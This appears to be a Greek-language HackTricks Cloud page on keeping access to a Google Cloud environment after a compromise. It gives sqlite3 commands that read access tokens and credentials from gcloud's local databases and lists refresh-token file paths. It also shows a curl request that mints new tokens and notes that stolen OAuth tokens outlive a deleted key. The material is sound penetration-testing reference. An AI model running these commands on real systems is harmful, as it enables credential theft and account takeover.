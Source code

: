 # GCP - Μη-υπηρεσιακή Διατήρηση

<details>

<summary><strong>Μάθετε το χάκινγκ AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στα HackTricks** ή να **κατεβάσετε τα HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

Αυτές είναι χρήσιμες τεχνικές όταν, με κάποιον τρόπο, έχετε διαρρεύσει κάποια διαπιστευτήρια GCP ή μηχανή που τρέχει σε ένα περιβάλλον GCP.

## Απαγωγή Διακριτικού

### Διακριτικά Χρήστη που Έχουν Ταυτοποιηθεί

Για να λάβετε το **τρέχον διακριτικό** ενός χρήστη μπορείτε να εκτελέσετε: 

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Ελέγξτε σε αυτήν τη σελίδα πως να **χρησιμοποιήσετε απευθείας αυτό το τοκέν με το gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Για να λάβετε τις λεπτομέρειες για τη **δημιουργία ενός νέου τοκέν πρόσβασης** εκτελέστε: 

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Είναι επίσης δυνατόν να βρείτε refresh tokens στο **`$HOME/.config/gcloud/application_default_credentials.json`** και στο **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Για να λάβετε ένα νέο ανανεωμένο access token με το **refresh token**, τον αριθμό ταυτότητας πελάτη (client ID) και το μυστικό πελάτη (client secret), εκτελέστε: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Η ισχύτητα των refresh tokens μπορεί να διαχειριστεί στο **Admin** > **Security** > **Google Cloud session control**, και από προεπιλογή είναι ρυθμισμένη σε 16 ώρες, αν και μπορεί να ρυθμιστεί ώστε να μην λήξει ποτέ:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Λογαριασμοί Υπηρεσιών

Όπως και με πιστοποιημένους χρήστες, αν καταφέρετε να **διαρρήξετε το αρχείο ιδιωτικού κλειδιού** ενός λογαριασμού υπηρεσίας, θα μπορείτε να **έχετε πρόσβαση σε αυτό συνήθως όσο θέλετε**.\
Ωστόσο, αν κλέψετε το **token OAuth** ενός λογαριασμού υπηρεσίας, αυτό μπορεί να είναι ακόμη πιο ενδιαφέρον, επειδή, ακόμη και αν από προεπιλογή αυτά τα tokens είναι χρήσιμα μόνο για μία ώρα, αν ο **θύμα διαγράψει το ιδιωτικό κλειδί api, το token OAuth θα παραμείνει έγκυρο μέχρι να λήξει**.

### Μεταδεδομένα

Φυσικά, όσο βρίσκεστε μέσα σε μια μηχανή που τρέχει στο περιβάλλον GCP θα μπορείτε να **έχετε πρόσβαση στον λογαριασμό υπηρεσίας που είναι συνδεδεμένος με αυτή τη μηχανή επικοινωνώντας με το σημείο μεταδεδομένων** (σημειώστε ότι τα tokens OAuth στο σημείο αυτό είναι συνήθως περιορισμένα από scopes).

### Διορθώσεις

Ορισμένες διορθώσεις για αυτές τις τεχνικές εξηγούνται στο [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Αναφορές

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
